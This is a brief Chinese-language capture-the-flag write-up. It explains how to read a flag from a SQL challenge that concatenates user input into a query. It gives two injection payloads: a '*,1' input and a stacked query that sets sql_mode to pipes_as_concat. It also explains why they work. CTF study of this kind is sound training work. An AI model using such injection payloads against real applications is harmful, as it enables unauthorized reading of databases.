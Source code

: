 tags:: CTFWEB/SQL

- # 思路一
  
  猜测网站SQL为：`“select”.post[‘query’]."||flag from Flag";`
  
  所以只要让query为`*,1`即可让SQL为`select *,1||flag from Flag`，得到flag
- # 思路二
  
  输入的内容为：
  
  `1;set sql_mode=pipes_as_concat;select 1`
- ## 解释
- 我们执行的语句分别为：
  ```sql
  select 1
  set sql_mode=pipes_as_concat
  select 1||flag from Flag
  ```
  其中set sql_mode=pipes_as_concat;的作用为将||的作用由or变为拼接字符串
  这个模式下进行查询的时候，使用字母连接会报错，使用数字连接才会查询出数据，因为这个 || 相当于是将 select 1 和 select flag from flag 的结果拼接在一起.
  读出flag